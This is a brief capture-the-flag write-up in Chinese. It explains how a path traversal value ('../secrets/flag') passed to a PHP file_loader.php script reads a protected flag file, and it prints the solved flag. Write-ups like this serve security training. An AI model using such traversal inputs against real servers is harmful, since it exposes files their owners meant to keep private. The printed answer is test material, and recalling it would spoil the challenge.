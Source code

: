 # Potentially Hidden Password
拿到網站php原始碼，收集線索：
 * 網站使用file_loader.php這隻程式來讀取檔案，例如顯示圖片的code是這樣：
```
<img src="file_loader.php?file=zone2.jpg" class="zone"/>
```
 * 再看到給出flag的程式碼：知道flag藏的路徑，如果file_loader.php能把flag讀出來的話就解開了。
使用圖片測試，猜出中相對路徑：
```
file_loader.php?file=../secrets/flag
```
成功取得 flag = i_like_being_included
